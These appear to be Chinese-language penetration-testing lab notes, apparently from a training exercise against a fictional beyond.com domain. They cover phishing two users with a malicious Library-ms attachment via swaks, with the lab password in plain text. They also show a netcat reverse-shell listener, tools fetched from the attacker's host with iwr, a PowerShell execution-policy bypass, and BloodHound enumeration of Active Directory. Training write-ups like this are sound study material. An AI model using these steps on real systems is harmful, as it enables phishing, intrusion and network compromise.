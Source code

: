 ```armasm
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
```

config.Library-ms也放到/home/kali/beyond

在/home/kali/beyond开启8000端口web服务

```armasm
python3 -m http.server 8000
nc -nvlp 4444
```

钓鱼邮件

```armasm
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap

Username: john
Password: dqsTwTpZPn#nL
```

获得CLIENTWK1权限

## 24.4 获取内部网络

提权枚举

```armasm
cd C:\Users\marcus
iwr -uri http://192.168.119.5:8000/winPEASx64.exe -Outfile winPEAS.exe
.\winPEAS.exe
systeminfo
是win11操作系统，winPEAS误报是win10

发现172段
    Entry                                 Name                                  Data
dcsrv1.beyond.com                     DCSRV1.beyond.com                     172.16.6.240
    mailsrv1.beyond.com                   mailsrv1.beyond.com                   172.16.6.254
```

AD域自动枚举

```armasm
cp /usr/lib/bloodhound/resources/app/Collectors/SharpHound.ps1 .
iwr -uri http://192.168.119.5:8000/SharpHound.ps1 -Outfile SharpHound.ps1
powershell -ep bypass
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All
```

列出AD用户和计算机，需要在BloodHound的底部RawQuery输入查询语句

```armasm
MATCH (m:Computer) RETURN m
MATCH (m:User) RETURN m
```
